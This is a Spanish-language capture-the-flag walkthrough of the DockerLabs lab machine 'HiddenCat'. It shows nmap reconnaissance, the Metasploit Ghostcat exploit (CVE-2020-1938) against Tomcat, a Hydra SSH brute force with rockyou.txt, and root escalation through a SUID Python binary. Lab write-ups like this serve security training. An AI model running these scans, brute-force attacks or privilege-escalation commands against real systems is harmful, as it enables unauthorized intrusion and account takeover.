 ```yaml
---
layout: post
title: Maquina HiddenCat
subtitle: DockerLabs
header-img: img/in-post/2020-10-07/upload-dl.png
header-style: text
catalog: true
tags:
  -  DockerLabs
  -  Fuerza Bruta
  -  Binarios UNIX
  -  Metasploit
  -  Reverse Shell
---
```


#### **Información**
- **Máquina:** HiddenCat
- **Plataforma:** [DockerLabs](https://dockerlabs.es/)
- **Creador:** El Pingüino de Mario
- **SO:** Linux
- **Dificultad:** `Facil`{:.success}

#### **Configuración Entorno**
Primeramente, como siempre para configurar las máquinas de DockerLabs, exportamos los ficheros auto_deploy.sh y en este caso hiddencat.tar.
Para ejecutarlo utilizamos el siguiente comando:
```bash
sudo bash auto_deploy.sh hiddencat.tar
```
![Image 1](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img1.png)

**auto_deploy.sh:** este archivo se encarga de desplegar la máquina mediante docker y, una vez presionamos `ctrl+c`{:.info} pasa a un proceso de borrado, todo automático, sin necesidad de tener conocimientos de docker.

**hiddencat.tar:** contiene todo el contenido de la máquina docker; es el corazón, donde está la máquina víctima.

#### **Reconocimiento**
Lo primero que realizamos es lanzar un ping contra la IP de la máquina para comprobar que tenemos conectividad.
```bash
ping -c 1 172.17.0.2
```
![Image 2](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img2.png)

Podemos observar que el ttl es de 64, por tanto, como norma general podemos afirmas que se trata de una maquina linux.
Una vez comprobada la conectividad, iniciaremos un escaneo con nmap, para detectar puertos abiertos y lo almacenaremos en un fichero llamado scan, con el siguiente comando:
```bash
nmap -p- --open -sV -sC -sS --min-rate=5000 -vvv -n -Pn -oN scan
```
- **-p-** --> Busqueda de puertos abiertos
- **--open** --> Enumera los puertos abiertos
- **-sS** --> Es un modo de escaneo rápido
- **-sC** --> Que use un conjunto de scripts de reconocimiento
- **-sV** --> Que encuentre la versión del servicio abierto
- **--min-rate=5000** --> Hace que el reconocimiento aun vaya más rápido mandando no menos de 5000 paquetes
- **-n** --> No hace resolución DNS
- **-Pn** --> No hace ping
- **-vvv** --> Muestra en pantalla a medida que encuentra puertos (Verbose)
![Image 3](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img3.png)
![Image 4](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img4.png)

Vemos que tiene abiertos los puertos **22 (SSH), 8080 y 8009**.
Gracias a los scrips de nmap nos detecta lo siguiente:
-	Puerto 22: `OpenSSH 7.9p1`{:.error}
-	Puerto 8009: `Apache Jserv (Protocol v1.3)`{:.error}
-	Puerto 8080: `Apache Tomcat 9.0.30`{:.error}

#### **Explotación**
Descartamos de momento atacar al puerto 22 ya que cuenta con una versión de OpenSSH no vulnerable, por tanto, investigamos el puerto 8009 que corre un Apache Jserv. Encontramos la siguiente referencia al respecto en [HackTriks](https://book.hacktricks.xyz/v/es/network-services-pentesting/8009-pentesting-apache-jserv-protocol-ajp), donde se detalla que versiones anteriores a 9.0.31, 8.5.51 y 7.0.100 de Apache Tomcat, si el puerto AJP está expuesto -como es el caso aquí, dado que tenemos la versión 9.0.30 y el puerto 8009 expuesto-, presentan una vulnerabilidad conocida como `Ghostcat`{:.info} (CVE-2020-1938).

En el propio HackTik encontramos un script en Python que permite explotar esta vulnerabilidad, yo he preferido buscarlo en `Metasploit`{:.info}.

Arrancamos Metasploit con el comando `msfconsole`{:.info}.
Una vez dentro buscamos los exploits que hagan referencia a Apache Jserv
```bash
msf6 > search exploit Apache Jserv
```
Encontramos el exploit `tomcat_ghostcat`{:.info}, lo seleccionamos.
```bash
msf6 > use 0
```
Y revisamos los parámetros necesarios para el exploit.
```bash
msf6 > show options
```
![Image 5](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img5.png)

Establecemos la IP de la maquina víctima y ejecutamos el exploit.
```bash
msf6> set RHOST 172.17.0.2
msf6> exploit
```
![Image 6](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img6.png)

Podemos ver que tenemos un usuario llamado Jerry.
Teniendo el usuario podríamos tratar de aplicar fuerza bruta para lograr acceso por SSH a la maquina víctima, ya que como nos mostró el escaneo de nmap, contamos con el Puerto 22 abierto.
Realizamos el ataque con Hydra al usuario Jerry utilizando el diccionario de contraseñas comunes `rockyou.txt`{:.info}.
```bash
hydra 172.17.0.2 ssh -s 22 -l jerry -P /usr/share/wordlists/rockyou.txt -f -I -t 64
```
![Image 7](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img7.png)

Y efectivamente nos encuentra la contraseña `chocolate`{:.success} :chocolate_bar: para el usuario Jerry
Accedemos por SSH a la maquina víctima.

![Image 8](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img8.png)
Una vez dentro trato de ejecutar sudo -l para listar los privilegios que tiene el usuario “Jerry” en el sistema mediante el comando sudo. Esto significa que muestra qué comandos puede ejecutar el usuario Jerry con privilegios elevados utilizando sudo, así como cualquier restricción aplicada a esos privilegios.
Pero nos indica que sudo no está instalado en el sistema, por tanto, pruebo a buscar los archivos con permisos SUID en el sistema.
```bash
jerry@a8385f5ecbd3:~$ find / -perm -4000 2>/dev/null
/bin/ping
/bin/su
/bin/umount
/bin/mount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/perl5.28.1
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/perl
/usr/bin/chsh
/usr/bin/python3.7
/usr/bin/python3.7m
```
Consultamos [https://gtfobins.github.io/](https://gtfobins.github.io/) para encontrar una manera de elevar privilegios con Python. Luego, ejecutamos el siguiente comando:
```bash
/usr/bin/python3.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```
![Image 9](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img9.png)

Y efectivamente, ya somo `root`{:.error}, por lo tanto, `¡¡¡maquina vulnerada!!!`{:.success} :sunglasses::sunglasses::sunglasses:

#### **Eliminación del entorno**

Para borrar la máquina solo debemos ir a la consola donde lo desplegamos y presionar `ctrl+c`{:.info} y eliminaría y borraría todo rastro de la máquina víctima en nuestro sistema LINUX.

![Image 10](https://aanton94.github.io/blog/img/posts/dl/hiddencat/img10.png)

`¡¡¡Espero que os haya gustado y nos vemos en la próxima!!!`{:.success}
